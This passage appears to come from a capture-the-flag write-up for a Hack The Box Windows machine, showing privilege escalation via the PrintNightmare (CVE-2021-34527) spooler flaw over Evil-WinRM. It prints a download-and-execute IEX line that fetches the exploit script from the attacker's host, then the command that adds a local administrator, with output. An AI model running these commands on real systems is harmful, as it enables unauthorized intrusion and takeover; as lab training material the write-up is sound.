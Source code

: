 ```powershell
    562      26    11120      18160 ...37             864 svchost
    211      16     1964       8292 ...96             872 svchost
    422      21     4792      17732 ...46             936 svchost
    765      27     6028      14088 ...39            1020 svchost
    647      46     9012      21848 ...27            1048 svchost
    488      42    13608      23496 ...65            1304 svchost
    128      11     3068       9276 ...97            1508 svchost
    277      18     4924      14772 ...07            1524 svchost
    187      15     3512      15216 ...57            1616 svchost
    183      15     3416       9936 ...04            1684 svchost
    116       9     1280       6156 ...77            2968 svchost
     99       7     1152       5996 ...87            3448 svchost
    850       0      120        140     3               4 System
    275      28     4540      13656 ...16     1.19   1360 taskhostw
    138      11     2712      10428 ...22            1720 VGAuthService
    108       7     1308       5520 ...06            1656 vm3dservice
    100       8     1380       6024 ...28            2016 vm3dservice
    333      23     9580      21940 ...56            1644 vmtoolsd
    211      18     4972      15188 ...67     1.48   4524 vmtoolsd
     89       9      976       4736 ...74             448 wininit
    182       9     1824       8756 ...22             500 winlogon
    327      19     9536      19512 ...96            2376 WmiPrvSE
   1484      32    79424      99124 ...71     4.36   3568 wsmprovhost
   1251      33   150372     171656 ...72    10.02   4692 wsmprovhost
    219      10     1544       7140 ...92             748 WUDFHost
```
Pay attention to the `spoolsv` service, related with the printer information we saw on foothold. If we look it up in google we find the [CVE-2020-1030](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030) and exploits related to a more recent [CVE-2021-34527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527). We donwload `PrintNightmare` from the [Github repo](https://github.com/JohnHammond/CVE-2021-34527) and run it on the victim:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> upload /home/r3van/HTB/Tools/CVE-2021-34527/CVE-2021-34527.ps1
Info: Uploading /home/r3van/HTB/Tools/CVE-2021-34527/CVE-2021-34527.ps1 to C:\Users\tony\Desktop\CVE-2021-34527.ps1

                                                             
Data: 238084 bytes of 238084 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Desktop> Import-Module .\CVE-2021-34527.ps1
File C:\Users\tony\Desktop\CVE-2021-34527.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\CVE-2021-34527.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```
As the `Import-Module` command is not working, we can try installing the exploit with `IEX`:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> IEX(New-Object Net.WebClient).downloadString("http://10.10.16.2:4444/CVE-2021-34527.ps1")
```
Success! Now we can run:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> Invoke-Nightmare -DriverName "Xerox" -NewUser "k0rriban" -NewPassword "revan1234" 
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user k0rriban as local administrator
```